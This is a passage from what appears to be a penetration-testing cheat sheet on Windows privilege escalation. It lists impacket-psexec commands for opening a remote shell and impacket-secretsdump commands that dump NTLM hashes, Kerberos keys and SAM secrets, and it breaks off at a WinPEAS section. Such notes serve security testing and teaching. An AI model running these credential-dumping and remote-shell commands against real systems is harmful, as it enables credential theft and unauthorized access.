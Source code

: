 ```yaml
---
title: Windows Privilege Escalation
desc: 
tags: [ActiveDirectory, LAPS, PowerShell, PrivEsc, Privilege, ShellBag, Windows, WMIC]
alts: [LAPS-Pentesting, PowerShell, Privilege-Escalation-Linux]
render_with_liquid: false
---
```


## Interact from Linux

Using **impacket-psexec**.

```sh
impacket-psexec username:password@<target-ip>
```

<br />

## Enumeration

1. **Use Impacket**

    ```sh
    # Basic
    impacket-secretsdump example.local/username:password@<target-ip>

    # Only NTLM hashes and Kerberos keys
    impacket-secretsdump -just-dc example.local/username:password@<target-ip>

    # Only NTLM hashes
    impacket-secretsdump -just-dc-ntlm example.local/username:password@<target-ip>

    # SAM and SYSTEM
    impacket-secretsdump -sam sam.bak -system system.bak local
    ```

<br />

## Investigation

1. **Use Automation Tools**

    - **[WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS){:target="_blank"}{:rel="noopener"}**

        1. **Download the WinPEAS on Your Local Machine**
